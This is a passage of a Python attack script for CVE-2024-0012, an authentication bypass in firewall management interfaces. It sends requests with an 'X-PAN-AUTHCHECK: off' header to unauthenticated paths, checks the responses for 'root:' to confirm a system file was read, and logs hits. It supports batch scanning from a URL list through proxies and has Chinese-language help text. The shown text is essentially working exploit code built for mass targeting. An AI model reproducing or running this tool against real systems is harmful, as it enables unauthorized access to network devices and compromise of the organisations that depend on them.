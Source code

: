 ```python
        'X-PAN-AUTHCHECK': 'off',
        'Connection': 'keep-alive'
    }
    burl = url + '/index.php/.js.map'
    try:
        r = requests.get(burl, headers=headers, proxies=proxies, verify=False, allow_redirects=False, timeout=timeout)
        if r.status_code == 200 and r.text:
            curl = url + '/unauth/x1.php'
            headers = {
                'Cookie': f'PHPSESSID={phpsessid}',
                'X-PAN-AUTHCHECK': 'off',
                'Content-Type': 'application/x-www-form-urlencoded'
            }
            r = requests.get(curl, headers=headers, proxies=proxies, verify=False, allow_redirects=False, timeout=timeout)
            if r.status_code == 200 and 'root:' in r.text:
                print('\033[1;31m' + '[+] Success ' + url + '\033[0m')
                with open('cve-2024-0012.txt', 'a') as f:
                    f.write(url + '\n')
        else:
            print("[-] No vulnerabilities found")
    except requests.exceptions.RequestException as e:
        print(e)

def pl(filename):
    try:
        with open(filename, 'r', encoding='utf-8') as f:
            urls = [line.strip() for line in f.readlines() if line.strip()]
        return urls
    except Exception as e:
        print(f"[-] Error reading file {filename}: {e}")
        return []

def help():
    # helpinfo = """ """
    # print(helpinfo)
    print("cve-2024-0012".center(100, '*'))
    print(f"[+]{sys.argv[0]} -u --url http://www.xxx.com 即可进行单个漏洞检测")
    print(f"[+]{sys.argv[0]} -f --file targetUrl.txt 即可对选中文档中的网址进行批量检测")
    print(f"[+]{sys.argv[0]} -p --proxies 代理设置")
    print(f"[+]{sys.argv[0]} -t --thread 线程设置，默认为10")
    print(f"[+]{sys.argv[0]} -h --help 查看更多详细帮助信息")
    print("--@ztomato".rjust(100," "))

def main():
    parser = argparse.ArgumentParser(description='@ztomato')
    parser.add_argument('-u','--url', type=str, help='单个漏洞网址')
    parser.add_argument('-f','--file', type=str, help='批量检测文本')
    parser.add_argument('-t','--thread',type=int, help='线程，默认为10')
    parser.add_argument('-p', '--proxies', type=str, help='代理设置，如 http://127.0.0.1:8080')
    args = parser.parse_args()

    proxies = {}
    if args.proxies:
        proxies = {'http': args.proxies, 'https': args.proxies}

    if args.url:
        verify(args.url, proxies=proxies)
    elif args.file:
        urls = pl(args.file)
        if not urls:
            print(f"[-] No valid URLs found in {args.file}")
```